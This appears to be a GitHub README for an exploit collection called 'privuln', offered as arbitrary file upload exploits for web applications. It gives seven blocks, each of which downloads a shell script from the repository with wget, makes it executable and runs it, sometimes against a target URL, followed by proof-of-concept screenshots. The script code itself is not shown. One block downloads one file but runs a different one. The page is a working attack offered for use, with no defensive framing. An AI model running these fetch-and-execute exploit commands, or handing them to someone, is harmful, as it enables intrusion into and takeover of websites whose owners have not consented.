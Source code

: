 # privuln
## Arbitary File Upload Exploit

- https://web.facebook.com/maing.phtml/posts/pfbid0Bar7Nn49QEjG5RBARYn6D84HDKYJ1wewp7HadK2BuU91NKtcY4zkqirKrtSWvCRDl
```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/privuln.sh
chmod +x privuln.sh
./privuln.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/poc.jpeg">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02sagrsrsiEZ52rVQqbzaszkuvtrZA3sDQrWWjpk8a5VrF7TfBQC21WNdpXkxMz6SKl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/exploit.sh
chmod +x exploit.sh
./exploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/exploit.jpeg">

---

- https://web.facebook.com/maing.phtml/posts/pfbid0NRMMR8Z8AmGwtQt18gzqjYtt5Zgj5JmzGqPFyCfV7BWYHirtH4uVd8GqBUkWPQ9Rl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/molla.sh
chmod +x exploit.sh
./exploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/molla-exploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02tWdvYk5H1VX9JfuoKvnSQcpkgQut9QDqZ9biaLPXKcMHFRW8Y5hpXEY6kr8wuMX7l

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/zanexploit.sh
chmod +x zanexploit.sh
./zanexploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/zanexploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02ZxhYbJ4kYxh31KKs3nPrYpUbP9psSiifADvp1nehyGdx213dQmFU9LmZ16kNZC2xl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/eraexploit.sh
chmod +x eraexploit.sh
./eraexploit.sh http://target.com
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/earexploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02um3uk7LZnwmjSNsAWnNhxUaVEgm1WJa61dymvqV2eu6fRbtXfrcUe2ywoG4ygB8Bl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/flixploit.sh
chmod +x flixploit.sh
./flixploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/flixploit-poc.png">

---

- https://web.facebook.com/maing.phtml/posts/pfbid02X986bkY6K6wxYhbkEykT4pZ9xbdfTmry7PW5WyzxX5ZL32N4PKDHGqAoZK8K1RRjl

```
wget https://raw.githubusercontent.com/1337r0j4n/privuln/main/sbxploit.sh
chmod +x sbxploit.sh
./sbxploit.sh
```
### Proof of Concept
<img src="https://raw.githubusercontent.com/1337r0j4n/privuln/main/sbxploit-poc.png">
